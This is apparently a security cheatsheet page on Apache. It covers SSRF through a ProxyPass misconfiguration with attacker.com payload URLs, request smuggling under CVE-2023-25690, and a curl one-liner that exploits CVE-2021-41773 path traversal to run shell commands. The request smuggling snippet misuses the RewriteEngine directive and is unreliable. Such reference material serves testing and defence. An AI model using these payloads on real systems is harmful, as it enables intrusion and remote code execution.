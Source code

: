 ```yaml
---
title: "Apache"
description: "Cheatsheet on Apache"
lead: "Cheatsheet on Apache"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "framework"
weight: 620
toc: true
---
```


## Apache

Apache is a widely-used open-source web server software. It provides HTTP server functionality and supports customizable modules. It's maintained by the Apache Software Foundation.

## Misconfiguration

### SSRF - ProxyPass & No ending slash

No ending slash at the end of the `ProxyPass` directive allow an SSRF attack.

```xml
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>
  ServerName victim.com
  ProxyPass / http://example.com
</VirtualHost>
```

- `http://victim.com/@attacker.com/`
- `http://victim.com/.attacker.com/`

## Vulnerabilities

### CVE-2023-25690 - Request Smuggling

- Version: `2.4.0-55`

```bash
RewriteEngine "^/here/(.*)" "http://example.com:8080/elsewhere?$1";
RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1";
```

### CVE-2021-41773 - Path Traversal & Potential RCE

- Version: `2.4.49`

```bash
$ curl 'http://localhost/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'echo Content-Type: text/plain; echo; id'
```

## Resources

- [weird_proxies / Apache](https://github.com/GrrrDog/weird_proxies/blob/master/Apache.md)
- [Apache HTTP Server 2.4 vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)